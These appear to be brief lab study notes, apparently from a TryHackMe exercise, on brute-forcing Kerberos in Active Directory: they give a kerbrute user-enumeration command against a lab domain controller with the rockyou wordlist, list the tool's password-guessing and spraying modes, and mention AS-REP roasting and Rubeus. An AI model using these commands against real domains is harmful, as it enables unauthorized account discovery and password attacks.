 # Kerberos Brute-force
Careful for locking out accounts.
Can find user accounts with 'UF_DONT_REQUIRE_PREAUTH' set, for a AS-REP Roasting attack.
`kerbrute userenum --dc 10.10.90.156 -d THM-AD /usr/share/wordlists/rockyou.txt`
	bruteuser - Passwords for user
	bruteforce - user:password combos
	passwordspray -  Password for list users 
	userenum - Users
`Rubeus` (with brute module)